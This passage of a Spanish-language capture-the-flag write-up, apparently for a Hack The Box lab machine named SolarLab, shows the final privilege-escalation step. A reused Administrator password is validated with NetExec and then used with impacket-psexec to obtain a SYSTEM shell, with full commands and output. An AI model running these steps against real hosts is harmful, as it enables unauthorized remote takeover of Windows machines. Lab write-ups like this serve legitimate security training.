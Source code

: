 # Consiguiendo una shell como Administrator
Entonces, ahora podemos probar estas credenciales para el usuario `Administrator` a ver si se reutilizan las credenciales..

Y con `NetExec` podemos comprobar que son válidas, así que ahora con `impacket-psexec` podemos conseguir una consola como `nt\authority system`

```shell
➜  content nxc smb 10.129.231.39 -u 'Administrator' -p 'ThisPasswordShouldDo!@'
SMB         10.129.231.39   445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.129.231.39   445    SOLARLAB         [+] solarlab\Administrator:ThisPasswordShouldDo!@ (Pwn3d!)
```

```shell
➜  content impacket-psexec solarlab.htb/Administrator:'ThisPasswordShouldDo!@'@10.129.231.39
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.231.39.....
[*] Found writable share ADMIN$
[*] Uploading file uLpOgqoX.exe
[*] Opening SVCManager on 10.129.231.39.....
[*] Creating service olGN on 10.129.231.39.....
[*] Starting service olGN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.4355]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```



Feliz Hacking! 🚀
